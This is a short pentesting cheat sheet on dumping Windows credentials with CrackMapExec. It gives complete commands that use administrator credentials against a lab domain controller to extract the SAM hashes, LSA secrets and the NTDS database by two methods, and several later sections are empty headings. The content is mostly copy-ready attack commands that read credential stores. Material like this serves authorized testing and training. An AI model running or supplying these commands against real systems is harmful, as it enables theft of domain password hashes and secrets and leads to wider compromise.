

# 🔥 Dump Credentials with CrackMapExec

### Environment Credentials

#### Dump Credentials from SAM File


```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --sam
```


<figure><figcaption><p>SAM Dump</p></figcaption></figure>

#### LSA


```bash
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --lsa
```


<figure><figcaption><p>LSA Dump</p></figcaption></figure>

#### LAPS

#### NTDS drsuapi


```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --ntds
```


<figure><figcaption><p>Dump NTDS DRSUAPI</p></figcaption></figure>

#### NTDS VSS


```
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs --ntds vss
```


<figure><figcaption></figcaption></figure>

### Applications Credentials

#### Wireless Passwords

#### KeePass Databases
